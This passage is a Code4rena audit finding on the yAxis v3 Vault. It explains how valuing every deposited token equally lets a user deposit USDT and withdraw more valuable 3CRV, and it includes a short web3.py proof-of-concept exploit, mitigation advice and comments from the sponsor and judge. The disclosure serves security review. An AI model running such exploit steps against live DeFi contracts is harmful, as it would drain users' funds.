 ```solidity
            _shares = _shares.add(_amount);
```

The share is burned at [Vault.sol L217](https://github.com/code-423n4/2021-09-yaxis/blob/main/contracts/v3/Vault.sol#L217)
```solidity
uint256 _amount = (balance().mul(_shares)).div(totalSupply());
```

Here's a sample exploit in web3.py.

```python
deposit_amount = 100000 * 10**6
user = w3.eth.accounts[0]
get_token(usdt, user, deposit_amount)
usdt.functions.approve(vault.address, deposit_amount).transact()
vault.functions.deposit(usdt.address, deposit_amount).transact()
vault.functions.withdrawAll(t3crv.address).transact()
# user can remove liquiditiy and get the profit.
```

#### Tools Used
Hardhat

#### Recommended Mitigation Steps
Given the protocols' scenario, I feel like we can take iearn token's architect as a Ref. [yDdai](https://etherscan.io/address/0x16de59092dAE5CcF4A1E6439D611fd0653f0Bd01#code)

yDai handles multiple tokens (cDai/ aDai/ dydx/ fulcrum). Though four tokens are pretty much the same, the contract still needs to calculate the price of each token.

Or, creating a vault for each token might be an easier quick fix.

**[Haz077 (yAxis) acknowledged](https://github.com/code-423n4/2021-09-yaxis-findings/issues/2)**

**[transferAndCall (yAxis) commented](https://github.com/code-423n4/2021-09-yaxis-findings/issues/2#issuecomment-917660280):**
 > The design of the v3 vaults is to intentionally assume that all allowed tokens are of equal value. I do not see us enabling the 3CRV token in our Vault test, though if we did, that doesn't mean we would in reality. Using a separate vault per token is an architecture we want to avoid.

**[GalloDaSballo (judge) commented](https://github.com/code-423n4/2021-09-yaxis-findings/issues/2#issuecomment-942441532):**
 > Anecdotal example from warden makes sense.
>
> Assuming that 3CRV is worth the same as a stablecoin is in principle very similar to assuming that a swap between each stable on curve will yield a balanced trade
>
> This reminds me of the Single Sided Exposure Exploit that Yearn Suffered, and would recommend mitigating by checking the virtual_price on the 3CRV token

**[GalloDaSballo (judge) commented](https://github.com/code-423n4/2021-09-yaxis-findings/issues/2#issuecomment-942441854):**
 > TODO: Review and check duplicates, need to read yaxis vault code and use cases before can judge this
